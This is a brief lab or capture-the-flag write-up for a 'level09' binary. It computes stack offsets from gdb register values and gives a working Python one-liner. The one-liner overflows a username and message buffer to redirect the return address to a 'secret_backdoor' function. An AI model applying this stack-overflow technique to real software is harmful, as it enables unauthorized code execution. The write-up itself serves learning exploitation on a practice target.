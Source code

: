 stack:
```
rbp            0x7fffffffe000      0x7fffffffe000
rsp            0x7fffffffdf40      0x7fffffffdf40

Hex value:
e000 – df40 = C0

Decimal value:
57344 – 57152 = 192

rbp-192 = char msg[140]
rbp-52 = char user[40]
rbp-12 = int len
```
192 + 8 (to reach rbp+8 cause 64 bit) = 200 bytes for ret address

need to write address of secret_backdoor aka `000055555555488c` so 200 + 8 bytes to write = 208 bytes aka '\xd0'

exploit:
```
(python -c "print('a' * 40 + '\xd0' + '\n' + '\x90' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1])" && cat) | ./level09
```
> Need the '\n' for the first fgets to not put the following things we write to be lost in the buffer of the `set_username` function
